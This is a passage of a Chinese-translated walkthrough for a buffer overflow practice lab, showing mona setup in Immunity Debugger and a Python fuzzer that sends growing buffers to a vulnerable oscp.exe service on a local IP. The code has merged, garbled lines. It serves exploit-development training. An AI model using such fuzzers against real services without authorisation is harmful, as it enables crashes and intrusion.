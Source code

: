 在 mona 中设置工作文件夹。

[](https://github.com/corelan/mona) [## 科勒兰/莫娜

### 是一个 python 脚本，可以用来自动化和加速特定的搜索…

github.com](https://github.com/corelan/mona) 

将 mona.py 和 paset 下载到 C:\ Program Files(x86)\ Immunity Inc \ Immunity Debugger \ py commands

```
!mona config -set workingfolder c:\mona\%p
```

![](img/ec17d6618bb67ccfbdf103548b57775c.png)

让我们试着运行 fuzzer.py(从房间获取)看看结果。只需检查脚本中的 IP 是否正确，并确保在运行脚本之前再次运行免疫调试器中的 oscp.exe。

## Fuzzer.py

```
import socket, time, sysip = "192.168.43.57";
port = 1337
timeout = 5buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

同时复制 **exploit.py** 代码

